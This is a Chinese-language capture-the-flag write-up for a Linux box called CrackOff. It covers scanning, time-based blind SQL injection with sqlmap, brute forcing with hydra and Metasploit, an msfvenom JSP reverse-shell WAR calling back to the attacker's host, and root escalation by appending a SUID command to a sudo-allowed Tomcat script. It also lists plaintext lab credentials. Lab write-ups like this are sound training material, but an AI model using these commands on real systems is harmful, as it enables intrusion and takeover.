## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/crackoff  
❯ nmap 172.17.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 21:28 CST
Nmap scan report for sitio.dl (172.17.0.2)
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
|_  256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.10 ms sitio.dl (172.17.0.2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
```

## Gobuster

```
[root@kali] /home/kali/crackoff  
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2974]
/login.php            (Status: 200) [Size: 3968]
/welcome.php          (Status: 200) [Size: 2800]
/db.php               (Status: 302) [Size: 75] [--> error.php]
/error.php            (Status: 200) [Size: 2705]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

进入**login.php**，发现在**username**字段中存在**SQL**注入漏洞，单引号闭合



将**Request**复制到一个文件中

```
[root@kali] /home/kali/crackoff  
❯ sqlmap -r burp.txt -p username --dbs
```





```
[root@kali] /home/kali/crackoff  
❯ sqlmap -r burp.txt -p username -D crackofftrue_db -T users --dump
```

由于是时间盲注，得多等一会



用**hydra**爆破吧，一个一个试有点费时间



```
rosa:ultramegaverypasswordhack
```

## User

在**/var/www/alice\_note**中得到一串字符



并且内部开有**8080**端口



**SSH**端口转发

```
[root@kali] ~kali/Desktop  
❯ ssh rosa@172.17.0.2 -L 8080:127.0.0.1:8080
```

然后使用**MSF**模块进行登录爆破



得到正确的登录密码

```
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

接下来上传**war**包进行**Getshell**

这里使用的是**msfvenom**生成的**webshell**

```
[root@kali] /home/kali/crackoff  
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPOST=4444 -f war -o shell.war                                                                 ⏎
Payload size: 1106 bytes
Final size of war file: 1106 bytes
Saved as: shell.war
```

部署后访问



成功得到反弹**shell**



进入**/opt/tomcat**得到**mario**的密码

```
mario:marioeseljefe
```

登录后拿到**user.txt**



## Root

查看**tomcat**的特殊命令

```
sudo -l
Matching Defaults entries for tomcat on 157676472df8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on 157676472df8:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

直接写入提权部分

```
echo "chmod u+s /bin/bash" >> /opt/tomcat/bin/catalina.sh

sudo  /opt/tomcat/bin/catalina.sh start
```



## Summary

`User`：**SQL时间盲注**得到登录账户列表，用**hydra**进行快速爆破。内部存在**tomcat**服务，同样进行爆破尝试，上传木马反弹**shell**。可以参考下面这个链接，我尝试使用**/usr/share/webshells/jsp/cmdjsp.jsp**进行转化为**war**文件，但是无法命令执行？？？无奈使用**msfveom**成功反弹。

- [【Vulfocus靶场-初级】Tomcat后台弱口令+War包文件上传Getshell漏洞复现\_tomcat上传war包-CSDN博客](https://blog.csdn.net/weixin_43847838/article/details/126545876)

`Root`：直接写入**/opt/tomcat/bin/catalina.sh**，以**root**的身份执行即可。

感觉这个机器奇奇怪怪的。。
